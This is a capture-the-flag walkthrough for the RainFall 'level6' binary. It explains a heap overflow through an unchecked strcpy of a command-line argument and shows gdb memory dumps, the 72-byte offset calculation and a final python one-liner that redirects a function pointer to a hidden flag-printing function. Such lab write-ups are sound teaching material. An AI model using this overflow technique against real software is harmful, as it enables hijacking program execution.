 The program expects a command line input that will be use in a `strcpy` just before the double pointer on the `m()` function is executed. We can see an hidden function `n()` which prints the flag we need. Here the function `strcpy` will copy the bytes of the source `argv[1]` to dest `uVar1` until meet a `\0`, but without a check on the size. We will have to trace the value of the parameter we pass to level6 to exploit the buffer of `strcpy`, in order to change the execution of `m`.

1. Find out the buffer’s size
```
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
```
%eax should contain our argv[1]’s address. Check that out by inserting breakpoints after the first malloc call, and at the strcpy call and we can see that $eax value is the same. Then set a breakpoint at the address of m, and check the values where our `argv[1]` is stocked `0x804a008` :

```
(gdb) x /128bx 0x804a008
0x804a008:	0x41	0x41	0x41	0x41	0x41	0x41	0x00	0x00
0x804a010:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a018:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a020:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a028:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a030:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a038:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a040:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a048:	0x00	0x00	0x00	0x00	0x11	0x00	0x00	0x00
0x804a050:	0x68	0x84	0x04	0x08	0x00	0x00	0x00	0x00
```
We can see that at 0x804a050 there is the address of `m()` so end of our buffer is at 0x804a048.
```
>>> int(hex(0x804a050 - 0x804a008), 16)
72
```
The buffer size is 72.


2. Find out the variable’s address.
```
(gdb) x n
0x8048454 <n>:	0x55
```

3. Exploit !
In the terminal :
```
level6@RainFall:~$ ./level6 $(python -c "print 'A' * 72 + '\x54\x84\x04\x08'")
```
